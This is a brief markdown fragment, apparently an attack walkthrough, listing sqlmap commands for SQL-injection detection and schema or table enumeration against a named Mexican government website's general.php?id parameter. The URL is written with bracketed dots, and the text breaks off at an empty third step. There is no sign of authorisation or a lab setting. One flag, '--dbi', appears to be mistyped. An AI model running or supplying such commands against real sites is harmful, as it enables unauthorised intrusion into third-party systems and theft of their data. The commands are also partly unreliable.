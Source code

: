 
### 1. SQLi Vuln Detection

````
sqlmap -u https://iieg[.]gob[.]mx/general.php?id=7
````

### 2. Schema & Tables enum

````
sqlmap -u https://iieg[.]gob[.]mx/general.php?id=7 --dbi
````

### 3. 

